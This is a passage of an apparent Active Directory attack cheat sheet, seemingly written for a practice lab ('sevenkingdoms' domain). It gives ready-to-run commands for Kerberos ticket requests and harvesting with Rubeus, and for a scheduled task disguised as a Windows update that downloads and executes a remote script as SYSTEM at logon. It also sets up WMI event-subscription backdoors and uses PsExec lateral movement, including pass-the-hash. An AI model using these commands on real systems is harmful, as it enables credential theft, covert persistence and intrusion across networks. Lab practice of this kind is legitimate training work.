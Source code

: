 ### Rubeus Ticket Management
```
# Create renewable ticket
.\Rubeus.exe asktgt /user:Administrator /rc4:hash /renewmax:10080 /ptt

# Harvest TGTs periodically
.\Rubeus.exe harvest /interval:30
```

### Scheduled Tasks
```powershell
# Create scheduled task for persistence
schtasks /create /tn "Windows Update Check" /tr "powershell -ep bypass -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.101/shell.ps1')" /sc onlogon /ru system

# Via PowerShell
$Action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ep bypass -w hidden -c backdoor_command"
$Trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -Action $Action -Trigger $Trigger -TaskName "WindowsUpdate" -Description "System Update Task"
```

### WMI Event Persistence
```powershell
# Create WMI event filter
$EventFilter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{Name="Updater";EventNameSpace="root\cimv2";QueryLanguage="WQL";Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfRawData_PerfOS_System' AND TargetInstance.SystemUpTime >= 200"}

# Create WMI consumer  
$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name="Updater";ExecutablePath="C:\Windows\System32\cmd.exe";CommandLineTemplate="/c powershell.exe -ep bypass backdoor"}

# Bind filter to consumer
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$EventFilter;Consumer=$Consumer}
```

---

## Lateral Movement

### PsExec
```bash
# Impacket psexec
psexec.py sevenkingdoms/administrator:password@winterfell

# With hash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:hash sevenkingdoms/administrator@castelblack

# Native Windows psexec
psexec \\winterfell -u sevenkingdoms\administrator -p password cmd
```
